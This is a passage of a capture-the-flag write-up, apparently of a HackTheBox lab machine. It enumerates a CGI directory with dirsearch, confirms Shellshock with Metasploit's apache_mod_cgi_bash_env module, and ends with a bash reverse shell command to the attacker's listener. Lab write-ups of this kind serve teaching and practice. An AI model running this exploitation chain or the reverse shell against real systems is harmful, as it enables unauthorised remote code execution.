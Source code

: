 {{< highlight bash >}}

sudo /opt/dirsearch/dirsearch.py -u http://10.10.10.56/cgi-bin/ -e sh,cgi -r -f

{{< /highlight >}}

Where:

- `/opt/dirsearch/` is the folder where the dirsearch script is located on my machine
- `-u` stands for URL
- `-e` stands for extensions to test
- `-r` and `-f` stands for recursive mode and force extensions for every wordlist entry respectively

It takes some time for the script to run, but at the end I'm able to find the file `user.sh` which returns a **200** code:

{{< highlight html >}}

[17:03:56] 403 -  305B  - /cgi-bin/.htpasswrd/
[17:03:56] 403 -  305B  - /cgi-bin/.htusers.sh
[17:03:56] 403 -  306B  - /cgi-bin/.htusers.cgi
[17:03:56] 403 -  303B  - /cgi-bin/.htusers/
[17:06:14] 200 -  118B  - /cgi-bin/user.sh

{{< /highlight  >}}

At this point I can configure the previous module in Metasploit setting the following options:

{{< highlight html >}}

set RHOSTS : 10.10.10.56
set RPORT : 80
set TARGETURI : /cgi/bin/user.sh

{{< /highlight  >}}

The module will try by default to run the command `/usr/bin/id` on the server. If the module returns the result of the `id` command, that means the server is vulnerable to shellshock and I'm able to run any command I want on it!

{{< highlight html >}}

msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run

[+] uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

{{< /highlight >}}

The module returned the id! Great!

At this point I can set any command I want to run setting the CMD value in the Metasploit module. This **bash reverse shell** will do the trick:


`set CMD /bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1`


